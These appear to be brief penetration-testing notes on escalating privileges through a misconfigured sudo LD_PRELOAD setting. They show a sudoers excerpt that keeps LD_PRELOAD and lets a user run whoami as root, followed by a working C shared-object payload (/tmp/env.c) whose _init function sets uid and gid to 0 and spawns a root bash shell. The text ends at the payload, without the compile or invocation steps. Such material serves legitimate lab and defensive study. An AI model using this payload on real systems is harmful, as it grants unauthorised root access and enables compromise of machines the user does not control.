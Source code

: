 
##  sudo -l [if you have the password]

##  sudo LD_PRELOAD vuln

------------------------ LD_PRELOAD vulnerability sudo  -----------------------------------------------------------

--The LD_PRELOAD runs the file with env.so file configured and the command will be executed on behalf of the "env.so file"
--- Sometimes the LD_PRELOAD is misconfigured and can be used to escalate_privilages

>> vim /etc/sudoers

      # Adding HOME to env_keep may enable a user to run unrestricted
      # commands via sudo.
      #
      Defaults   env_keep += LD_PRELOAD

      Defaults    secure_path = /sbin:/bin:/usr/sbin:/usr/bin

      ## Next comes the main part: which users can run what software on 
      ## which machines (the sudoers file can be shared between multiple
      ## systems).
      ## Syntax:
      ##
      ##   user  MACHINE=COMMANDS
      ##
      ## The COMMANDS section may have other options added to it.
      ##
      ## Allow root to run any commands anywhere 
      root  ALL=(ALL)   ALL
      yogi  ALL=(ALL)  /usr/bin/whoami

>> vim /tmp/env.c

``` c
      #include <stdio.h>
      #include <sys/types.h>
      #include <stdlib.h>
      void _init() {
        unsetenv("LD_PRELOAD");
        setgid(0);
        setuid(0);
        system("/bin/bash");
      }
```
